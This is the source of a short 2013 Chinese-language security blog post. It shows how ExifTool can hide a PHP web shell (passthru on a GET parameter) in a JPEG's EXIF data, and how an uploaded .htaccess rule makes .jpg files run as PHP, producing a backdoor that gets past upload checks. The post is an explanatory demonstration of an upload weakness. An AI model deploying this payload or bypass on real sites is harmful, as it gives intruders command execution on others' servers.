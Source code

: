 ```yaml
---
layout: post
title: "Image exif tool"
date: 2013-02-27 15:58
comments: true
categories: Security
---
```


最近在網路上找Image exif的修改工具 for Mac，

最後找到 [ExifTool][exiftool]

不過，為什麼要找Exif的修改工具呢？

其實是在看到[Orange][orange]在Web Conf所講的[Talk][o-talk]後才想找的，

安裝完 [ExifTool][exiftool] 之後，

1.觀看圖片的Exif資訊

    $ exiftool test.jpg

2.修改圖片的Exif資訊，e.g., Document Name
    $ exiftool exiftool -documentname='<?php passthru($_GET[cmd]); __halt_compiler();?>' test.jpg
    $ file test.jpg
    ./test.jpg JPEG: image data, JFIF standard 1.01

大概是像上面這樣，

所以我們可以透過上傳test.jpg 以及 .htaccess

    $ cat .htaccess
    addhandler application/x-httpd-php .jpg

這是為了做什麼？

上傳後執行可以看到這樣的畫面

![image upload][imageup1]

<br>

![image upload][imageup2]

其實就是個小後門!


[exiftool]: http://www.sno.phy.queensu.ca/~phil/exiftool/
[o-talk]: http://www.slideshare.net/p8361/webconf-2013best-practices-the-upload
[imageup1]: /images/imageup1.png "image upload"
[imageup2]: /images/imageup2.png "image upload"
[orange]: http://blog.orange.tw
